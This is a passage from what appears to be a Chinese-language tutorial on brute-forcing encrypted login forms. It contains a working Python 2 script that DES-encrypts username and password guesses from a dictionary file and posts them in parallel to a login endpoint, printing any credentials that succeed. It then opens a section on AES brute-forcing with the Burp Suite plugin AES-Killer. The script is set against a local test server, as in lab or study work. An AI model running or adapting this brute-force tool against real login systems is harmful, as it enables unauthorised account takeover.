 ```python
        # keyword='12345678'

        encPWd = '{"username":"%s","password":"%s"}'%(user,keyword)
        psw=DesEncrypt(encPWd,Des_Key)
        print str(psw)
        head = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0',
                'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
                'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
                'Connection': 'close',
                'Upgrade-Insecure-Requests': '1',
                'Cache-Control': 'max-age=0',
                }
        postdata={'login_key':psw}
        try:
            r=requests.post('http://127.0.0.1/des/test.php',headers=head,data=postdata)
            res=(r.text.encode("unicode_escape").decode("string_escape"))
            # print res
            # print type(res)
            if'重新' in res:
                print "trying +"+encPWd
                pass
            else:
                print res
                exit('%s:%s  成功?'%(user,keyword))
        except Exception as e:
            print e


def main():
    user = [ 'admin','root']
    # user='admin'
    pool = Pool(2)
    pool.map(bruteforce,user)
    # bruteforce(user,password,head)
if __name__ == '__main__':
    passwordDict = open("C:\\Users\\49974\\Desktop\\psw.txt").read().splitlines()
    main()
```



# 0x03 AES的爆破

**AES-Killer**

## 1. 如何安装

```
从Release下载jar文件并添加burpsuite
```
